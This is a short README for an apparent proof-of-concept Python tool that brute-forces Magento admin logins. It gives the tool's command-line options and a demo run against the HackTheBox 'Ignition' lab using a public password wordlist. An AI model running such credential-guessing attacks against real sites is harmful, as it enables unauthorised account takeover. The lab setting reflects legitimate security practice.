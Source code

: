 # Yet another Magento Login Bruteforcer

Just for convenience and as a PoC.


## Tested with

This script is tested against:
- **Magento ver. dev-2.4-develop**
- python **3.11.4**


## How it works

```
python magentoBf.py -h

usage: magentoBf.py [-h] [-u U] [-w W] [-max_conc_calls MAX_CONC_CALLS] [-t T] url

Yet another Magento login Bruteforce script.

positional arguments:
  url                   The url where the Magento login is located

options:
  -h, --help            show this help message and exit
  -u U                  The username to try to brute force the password. Defaults to admin
  -w W                  The password wordlist fullpath to use
  -max_conc_calls MAX_CONC_CALLS
                        Number. Max concurrent calls to try to schedulle. Defaults to 200.
  -t T                  Number. Time to wait between max concurrent blocks. Defaults to 2 secs.


```

## Demo

Created for and used with **Ignition** box in **HTB**.

```
python magentoBf.py http://ignition.htb/admin -u admin -w /opt/SecLists/Passwords/xato-net-10-million-passwords-10000.txt
```

![Demo bruteforce ignition](images/magento_bf_demo.gif)
